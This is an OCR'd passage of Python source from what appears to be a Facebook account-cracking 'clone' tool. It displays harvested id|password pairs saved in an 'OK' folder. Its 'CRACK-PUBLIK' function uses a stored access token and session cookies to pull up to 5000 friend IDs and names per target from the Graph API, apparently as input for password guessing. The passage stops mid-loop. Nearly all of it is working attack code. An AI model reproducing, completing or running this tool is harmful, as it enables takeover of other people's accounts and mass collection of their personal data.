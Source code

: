                          for isi in vin: 
                                 try:hem = open('OK/'+isi,'r').readlines() 
                                 except:continue 
                                 cih+=1 
                                 if cih<100: 
                                         nom = ''+str(cih) 
                                         lol.update({str(cih):str(isi)}) 
                                         lol.update({nom:str(isi)}) 
                                         print('['+nom+'] '+isi+' [ '+str(len(hem))+' Account ]'+u) 
                                 else: 
                                         lol.update({str(cih):str(isi)}) 
                                         print('['+str(cih)+'] '+isi+' [ '+str(len(hem))+' Account ]'+u) 
                         geeh = input('\n• CHOOSE : ') 
                         try:geh = lol[geeh] 
                         except KeyError: 
                                 print('• SELECT RIGHT OPTION ') 
                                 exit() 
                         try:lin = open('OK/'+geh,'r').read().splitlines() 
                         except: 
                                 print('• File Not Found ') 
                                 time.sleep(2) 
                                 back() 
                         nocp=0 
                         for cpku in range(len(lin)): 
                                 cpkuni=lin[nocp].split('|') 
                                 cpkuh=f' {cpkuni[0]}  {cpkuni[1]}' 
                                 sol().print(cpkuh,style="green") 
                                 nocp +=1 
                         input('[ CLICK ENTER 2 BACK ]') 
                         back() 
         elif kz in ['0','00']: 
                 back() 
         else: 
                 print('• SELECT RIGHT OPTION ') 
                 exit() 
 #-------------------[ CRACK-PUBLIK ]----------------# 
 def dump_massal(): 
         try: 
                 token = open('.token.txt','r').read() 
                 cok = open('.cok.txt','r').read() 
         except IOError: 
                 exit() 
         try: 
                 jum = int(input('• ENTER THE NUMBERS OF IDZ YOU WANT TO CLONE  : ')) 
         except ValueError: 
                 print(' INVALID OPTION ') 
                 exit() 
         if jum<1 or jum>100000000: 
                 print('#TRY AGAIN ') 
                 exit() 
         ses=requests.Session() 
         yz = 0 
         for met in range(jum): 
                 yz+=1 
                 kl = input('• INPUT ID '+str(yz)+' : ') 
                 uid.append(kl) 
         for userr in uid: 
                 try: 
                         col = ses.get('https://graph.facebook.com/v2.0/'+userr+'?fields=friends.limit(5000)&access_token='+tokenku[0], cookies = {'cookies':cok}).json() 
                         for mi in col['friends']['data']: 
                                 try: 
                                         iso = (mi['id']+'|'+mi['name']) 
                                         if iso in id:pass 